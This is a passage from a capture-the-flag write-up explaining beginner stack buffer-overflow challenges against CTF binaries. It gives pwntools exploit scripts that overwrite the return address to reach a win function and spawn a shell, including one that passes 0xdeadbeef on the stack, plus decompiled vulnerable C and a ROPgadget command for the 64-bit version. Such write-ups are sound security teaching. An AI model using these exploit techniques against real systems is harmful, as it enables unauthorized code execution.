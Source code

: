 ```python
from pwn import *
c = remote("0.cloud.chals.io", 22209)
c.sendline(b"a" * 67 + p32(0x080491d6))
c.interactive()
```

## 3

The C code is the same than the precedent but with an argument passed to the win function, this argument should be `0xdeadbeef` to get the shell. We are in 32 bytes code object, arguments is passed on the stack. So we need to add 3 values on the stack: `win` address in `eip` register, the `eip` for the `win` function and the argument value.

```python
from pwn import *
c = process("/media/kali/Downloads/pwnme")
c.sendline(b"a" * 36 + p32(0x080491d6) + p32(0x080491d6) + p32(0xdeadbeef))
c.interactive()
```

```python
from pwn import *
c = remote("0.cloud.chals.io", 28949)
c.sendline(b"a" * 36 + p32(0x080491d6) + p32(0x080491d6) + p32(0xdeadbeef))
c.interactive()
```

## 4

This time we don't have the *C code*, so we can use *ghidra* to read instructions and get a C code:

```c
void vuln() {
  char buffer[32];
  gets(buffer);
}

void win(uint param_1) {
  if (param_1 == 0xdeadbeef) {
    system("/bin/sh");
  }
  else {
    puts("Almost...");
  }
}
```

The difference is we are in 64 bytes program, to pass an argument we need to use the `rdi` register. So we should find a `pop rdi` instruction followed by `ret` to get the shell. We will add the argument's value in the stack, use the `pop rdi` to put the value in the `rdi` register and call the `win` function. We can use a tool named: `ROPgadget`, like this:

```bash
ROPgadget --binary /media/kali/Downloads/pwnme | grep "pop rdi"
```
